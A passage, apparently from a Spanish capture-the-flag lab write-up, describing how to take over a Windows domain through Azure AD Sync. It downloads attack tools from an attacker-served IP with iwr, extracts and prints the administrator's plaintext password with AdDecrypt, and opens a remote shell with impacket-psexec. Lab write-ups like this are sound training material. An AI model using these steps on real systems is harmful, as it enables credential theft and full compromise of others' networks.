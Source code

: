 ``python3 -m http.server 80``

- Hacemos solicitud de los recursos desde máquina víctima

``iwr http://10.10.14.8/AdDecrypt.exe -o AdDecrypt.exe``

``iwr http://10.10.14.8/mcrypt.dll -o mcrypt.dll``

![Pasted image 20250315145930](https://github.com/user-attachments/assets/cdc6df66-75fc-436f-84cb-12d23c8a5142)

Una vez los tenemos en máquina víctima, seguimos las instrucciones del github.

- Nos dirigimos al directorio: C:\Program Files\Microsoft Azure AD Sync\Bin y ejecutamos:
  
``C:\Temp\AdDecrypt.exe -FullSQL``

![Pasted image 20250315150238](https://github.com/user-attachments/assets/9a935a21-fe58-41ea-abbd-325b8cca655a)

Ojito con lo que tenemos.

- administrator : d0m@in4dminyeah!

Vamos a validar las credenciales con netexec:

![Pasted image 20250315150335](https://github.com/user-attachments/assets/802f4131-7544-428f-8d05-a38594ec755b)

Tenemos Pwn3d!, por lo que podemos hacer uso de wmiexec, psexec o winrm (previa validación con netexec).


``impacket-psexec administrator@10.10.10.172``

![Pasted image 20250315150746](https://github.com/user-attachments/assets/3c86e611-1a5e-48e7-b457-40b949f799e4)


Encontramos la flag de administrador en C:\Users\Administrator\Desktop:

![Pasted image 20250315150842](https://github.com/user-attachments/assets/2d0fda0d-2f5f-491b-9aaf-0b3b35d2f441)
